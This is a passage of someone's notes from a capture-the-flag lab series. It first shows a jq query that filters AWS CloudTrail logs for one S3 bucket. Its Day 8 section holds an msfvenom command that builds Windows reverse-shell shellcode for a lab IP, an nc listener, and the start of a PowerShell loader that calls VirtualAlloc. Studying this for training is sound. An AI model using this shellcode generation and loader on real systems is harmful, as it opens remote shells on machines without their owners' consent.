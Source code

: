 ```
    ``` jq -r '["Event_Time", "Event_Name", "User_Name", "Bucket_Name", "Key", "Source_IP"],(.Records[] | select(.eventSource == "s3.amazonaws.com" and .requestParameters.bucketName=="wareville-care4wares") | [.eventTime, .eventName, .userIdentity.userName // "N/A",.requestParameters.bucketName // "N/A", .requestParameters.key // "N/A", .sourceIPAddress // "N/A"]) | @tsv' cloudtrail_log.json | column -t ```

- Here we find the date and time that the qr was switched out 
- WE furthermodify our commands to flow through all the clues that we receive at each step in order to find all the relevant information 

## What I learned

- Log analysis
- jq commands
- some of the services of aws




#Day 8

- Start by running 
    ``` msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.149.16 LPORT=4444 -f powershell ```

-  This produces the hex-encoded shellcode. 
- Now we create a powershell script which can be used to execute the shellcode
- ``` nc -nvlp 1111 ``` this is used to opening a listening port on 1111 and wait for an incoming connection
- We use the following powershell script to execute the shellcode:
```
    $VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
"@
